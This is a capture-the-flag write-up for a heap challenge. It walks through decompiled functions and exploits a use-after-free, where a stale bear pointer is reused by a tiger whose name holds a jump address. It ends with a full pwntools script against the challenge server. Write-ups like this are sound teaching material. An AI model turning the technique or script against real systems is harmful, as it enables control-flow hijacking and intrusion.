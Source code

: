 This challenge is really similar to woo2.
The main difference is in the pwnMe function :

In woo2, we have :

	void __noreturn pwnMe()
	{
	  __int64 v0; // [sp+0h] [bp-10h]@1

	  ++ if ( bearOffset != -1 )
	  ++ {
		  v0 = (__int64)*(&pointers + bearOffset);
		  if ( *(_DWORD *)(v0 + 20) == 3 )
		    (*(void (**)(void))v0)();
	  ++ }
	  exit(0);
	}

So in this challenge, we need to create a bear to be able to call our function.

Let's look a makeBear :

	__int64 makeBear()
	{
	  void *v0; // rax@1
	  void *v1; // ST08_8@1

	  v0 = malloc(0x18uLL);
	  v1 = v0;
	  *(_QWORD *)v0 = 3735928559LL;
	  *((_DWORD *)v0 + 5) = pickBearType(24LL);
	  puts("Enter the bear's name:");
	  fflush(stdout);
	  fgets((char *)v1 + 8, 12, stdin);
	  *(&pointers + next) = v1;
	  bearOffset = next;
	  return (unsigned int)(next++ + 1);
	}

This function is similar to makeTiger except that the name is not written
at the beggining of the buffer (0xDEADBEEF is written instead and the name
is written from v0[8]) so we cannot use this directly to jump to l33tH4x0r. 

We observe that bearOffset is set to next when we create a bear so in pwnMe,
the buffer v0 will always correspond to the buffer of the last created bear.

We can observe the deleteAnimal function :

	void deleteAnimal()
	{
	  int v0; // [sp+Ch] [bp-4h]@1

	  puts("Choose your friends wisely..");
	  puts("Which element do you want to delete?");
	  fflush(stdout);
	  __isoc99_scanf(4198456LL, &v0);
	  getchar();
	  if ( v0 > 0 && v0 <= 4 )
	    free(*(&pointers + v0));
	}

We see that the allocated buffer for an animal will be freed 
when we call deleteAnimal. However, when we chose 1 in the menu,
it is pointers[1] that will be freed and not pointers[0]. So the second
animal created will be freed (i = 1) and not the first (i = 0).

We want (&pointers + bearOffset) in pwnMe to point to a tiger (see woo_writeup)
so we can chose 3 as the type and the name of the tiger as the address to jump to.

Since the bearOffset does not change when we delete an animal, we can create a bear,
delete it and replace it with a tiger with type = 3 and name = 0x40090E.

So in order :
  - Create an animal (anything)
  - Create a bear (so bearoffset is different than -1)
  - delete the bear
  - Create a tiger to replace the bear in memory
    (&pointers + bearoffset) will now point to the tiger instead of the bear.
  - Call pwnME with the Menu Option 4919

This can be achieved with the following python script :

	from pwn import *
	
	# the address to jump to to print the flag
	l33tH4x0r_addr = 0x40090E

	with remote('104.155.227.252', 31337) as p:
		# make tiger
		print p.recvuntil('choice:')
		p.sendline('2') # tiger
		print p.recvuntil('want:')
		p.sendline('3') # type
		print p.recvuntil('tiger:')
		p.sendline('AAAA') # could be anything

		# make bear
		print p.recvuntil('choice:')
		p.sendline('3') # bear
		print p.recvuntil('want:')
		p.sendline('3') # type
		print p.recvuntil('name:')
		p.sendline('BBBB') # could be anything

		# delete second animal created (so the bear, with index = 1)
		print p.recvuntil('choice:')
		p.sendline('4') # bear
		print p.recvuntil('delete?')
		p.sendline('1') # type

		# make tiger
		print p.recvuntil('choice:', timeout=1)
		p.sendline('2') # tiger
		print p.recvuntil('want:', timeout=1)
		p.sendline('3') # type
		print p.recvuntil('tiger:', timeout=1)
		p.sendline(p64(l33tH4x0r_addr))

		# call pwnMe
		print p.recvuntil('choice:')
		p.sendline('4919')

		print p.recvall()
